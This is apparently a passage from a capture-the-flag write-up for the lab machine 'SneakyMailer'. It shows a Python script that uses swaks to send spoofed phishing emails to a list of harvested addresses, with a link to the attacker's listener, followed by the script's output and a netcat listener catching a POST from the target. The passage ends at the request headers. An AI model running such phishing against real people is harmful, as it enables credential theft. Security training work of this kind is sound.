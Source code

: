 <h1>Phishing script</h1>

<pre><span class="kn">import</span> <span class="nn">os</span>
<span class="k">def</span> <span class="nf">open_ressources</span><span class="p">(</span><span class="n">file_path</span><span class="p">):</span>
    <span class="k">return</span> <span class="p">[</span><span class="n">item</span><span class="p">.</span><span class="n">replace</span><span class="p">(</span><span class="s">"</span><span class="se">\n</span><span class="s">"</span><span class="p">,</span> <span class="s">""</span><span class="p">)</span> <span class="k">for</span> <span class="n">item</span> <span class="ow">in</span> <span class="nb">open</span><span class="p">(</span><span class="n">file_path</span><span class="p">).</span><span class="n">readlines</span><span class="p">()]</span>
<span class="n">wordlist</span> <span class="o">=</span> <span class="n">open_ressources</span><span class="p">(</span><span class="s">"emails"</span><span class="p">)</span>

<span class="k">for</span> <span class="n">emails</span> <span class="ow">in</span> <span class="n">wordlist</span><span class="p">:</span>
        <span class="k">print</span> <span class="s">"</span><span class="se">\n</span><span class="s">[+]Sending email to "</span> <span class="o">+</span> <span class="n">emails</span>
        <span class="n">command</span> <span class="o">=</span> <span class="s">'swaks --from "angelicaramos@sneakymailer.htb" --body "http://10.10.14.24:8080" --to '</span> <span class="o">+</span> <span class="n">emails</span> <span class="o">+</span> <span class="s">" &gt; /dev/null"</span>
        <span class="c1">#print command
</span>        <span class="n">os</span><span class="p">.</span><span class="n">system</span><span class="p">(</span><span class="n">command</span><span class="p">)</span>
</pre>

<blockquote><p>Result after running the script</p></blockquote>
<pre>➜  sneakymailer python spoof-msg.py                                                    

<span class="o">[</span>+]Sending email to airisatou@sneakymailer.htb

<span class="o">[</span>+]Sending email to angelicaramos@sneakymailer.htb

<span class="o">[</span>+]Sending email to ashtoncox@sneakymailer.htb

<span class="o">[</span>+]Sending email to bradleygreer@sneakymailer.htb
</pre>  
 
<blockquote><p>The response on listener</p></blockquote>  
<pre><span class="err">➜  m19o nc -nlvp 8080 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:48426.
</span><span class="nf">POST</span> <span class="nn">/</span> <span class="k">HTTP</span><span class="o">/</span><span class="m">1.1</span>
<span class="na">Host</span><span class="p">:</span> <span class="s">10.10.14.24:8080</span>
<span class="na">User-Agent</span><span class="p">:</span> <span class="s">python-requests/2.23.0</span>
<span class="na">Accept-Encoding</span><span class="p">:</span> <span class="s">gzip, deflate</span>
<span class="na">Accept</span><span class="p">:</span> <span class="s">*/*</span>
<span class="na">Connection</span><span class="p">:</span> <span class="s">keep-alive</span>
<span class="na">Content-Length</span><span class="p">:</span> <span class="s">185</span>
<span class="na">Content-Type</span><span class="p">:</span> <span class="s">application/x-www-form-urlencoded</span>
